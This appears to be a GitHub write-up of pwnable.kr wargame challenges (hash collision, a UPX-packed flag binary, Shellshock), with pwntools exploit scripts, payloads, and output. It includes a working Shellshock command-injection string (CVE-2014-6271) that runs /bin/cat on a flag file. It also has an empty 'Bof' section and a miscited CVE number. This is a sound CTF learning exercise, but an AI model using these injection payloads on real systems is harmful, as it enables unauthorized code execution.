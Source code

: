 # Empiricism
 
Writeups of few ezpz challenges from pwnable.kr, super fun.<br />

Files can be downloaded at : http://pwnable.kr/play.php <br />

## Collision

This challenge is about (MD5) hash collision, here is the C code:

```c
unsigned long hashcode = 0x21DD09EC;
unsigned long check_password(const char* p){
	int* ip = (int*)p;
	int i;
	int res=0;
	for(i=0; i<5; i++){
		res += ip[i];
	}
	return res;
}

int main(int argc, char* argv[]){
	if(argc<2){
		printf("usage : %s [passcode]\n", argv[0]);
		return 0;
	}
	if(strlen(argv[1]) != 20){
		printf("passcode length should be 20 bytes\n");
		return 0;
	}

	if(hashcode == check_password( argv[1] )){
		system("/bin/cat flag");
		return 0;
	}
	else
		printf("wrong passcode.\n");
	return 0;
}
```

We would like to produce a 20 bytes hash with the following value : 0x21DD09EC <br />

```
0x21DD09EC = 568134124

0x1010101 * 4 = 0x4040404 <=> '\x01'*16 (16/20 bytes)

0x4040404 = 67372036 
 
568134124 - 67372036 = 0x1DD905E8 (4/20 bytes)

0x21DD09EC = 0x4040404 + 0x1DD905E8 

./col "`python -c "print '\x01'*16 + '\xE8\x05\xD9\x1D'"`"
```

Let's craft an exploit with python/pwntools:

```python
from pwn import *

payload = p32(0x1010101)*4 + p32(0x1DD905E8)

conn = ssh(host='pwnable.kr', user='col', password='guest', port=2222)
p = conn.process(executable='./col', argv=['col', payload])
p.interactive()
```

Output from script is:

```
[+] Connecting to pwnable.kr on port 2222: Done
[!] Couldn't check security settings on 'pwnable.kr'
[+] Starting remote process bytearray(b'./col') on pwnable.kr: pid 389795
[*] Switching to interactive mode
daddy! I just managed to create a hash collision :)
[*] Got EOF while reading in interactive
```

```
daddy! I just managed to create a hash collision :)
```

## Bof

## Flag

This is the only challenge (amongst the four) without code, only binary.

```
└─$ file flag
flag: ELF 64-bit LSB executable, x86-64, version 1 (GNU/Linux), statically linked, no section header
```

```
└─$ strings flag | less
UPX!
[...]
```

UPX is a packer for executables, we could install upx package, then decompress the binary, and finally look at the binary with gdb. <br />

Another solution is to set a catchpoint at a syscall and generate a core file.

```
└─$ strace ./flag

[...]
mmap(NULL, 4096, PROT_READ|PROT_WRITE, MAP_PRIVATE|MAP_ANONYMOUS, -1, 0) = 0x7fdc8b0b3000
write(1, "I will malloc() and strcpy the f"..., 52I will malloc() and strcpy the flag there. take it.
) = 52
exit_group(0)                           = ?
```

Let's set a catchpoint at the end of the program (exit_group func) and generate a core file.

```
└─$ gdb ./flag

gef➤ catch syscall exit_group
Catchpoint 1 (syscall 'exit_group' [231])

gef➤ r

gef➤ generate-core-file core-flag
Saved corefile core-flag

gef➤ quit

└─$ strings -n 21 core-flag | less
UPX...? sounds like a delivery service :)
[...]
```

```
UPX...? sounds like a delivery service :)
```

Original idea from : [Walkthrough of flag level in pwnable.kr](https://www.youtube.com/watch?v=l7dPPmVeRDw)


## Shellshock


GNU Bash through 4.3 processes trailing strings after function definitions in the values of environment variables, which allows remote attackers to execute arbitrary code via a crafted environment.

```
shellshock@pwnable:~$ bash --version
GNU bash, version 4.3.48(1)-release (x86_64-pc-linux-gnu)
```

Bash, in this case, is vulnerable to CVE-2014-761, here is the C code:
```c
int main(){
	setresuid(getegid(), getegid(), getegid());
	setresgid(getegid(), getegid(), getegid());
	system("/home/shellshock/bash -c 'echo shock_me'");
	return 0;
}
```

From wikipedia, you can get the correct string format, just got to translate it afterwards

```c
env x='() { :;}; echo vulnerable' bash -c "echo this is a test"
```

```c
env y='() { :;}; /bin/cat /home/shellshock/flag' ./shellshock"
```

Pretty straight forward from here, we can build an exploit in python

```python
from pwn import *

conn = ssh(host='pwnable.kr', user='shellshock', password='guest', port=2222)
sh = conn.shell();

res = sh.recvuntil(b'$')
sh.sendline(b"env x='() { :;}; /bin/cat /home/shellshock/flag' ./shellshock")
res = sh.recvuntil(b'$')

print("\n")
print(res)
print("\n")

sh.close()
conn.close()

```

Output from script is:
```
[+] Connecting to pwnable.kr on port 2222: Done
[!] Couldn't check security settings on 'pwnable.kr'
[+] Opening new channel: 'shell': Done


b" env x='() { :;}; /bin/cat /home/shellshock/flag' ./shellshock\r\nonly if I knew CVE-2014-6271 ten years ago..!!\r\nSegmentation fault (core dumped)\r\nshellshock@pwnable:~$"


[*] Closed SSH channel with pwnable.kr
[*] Closed connection to 'pwnable.kr'
```

```
only if I knew CVE-2014-6271 ten years ago..!!
```

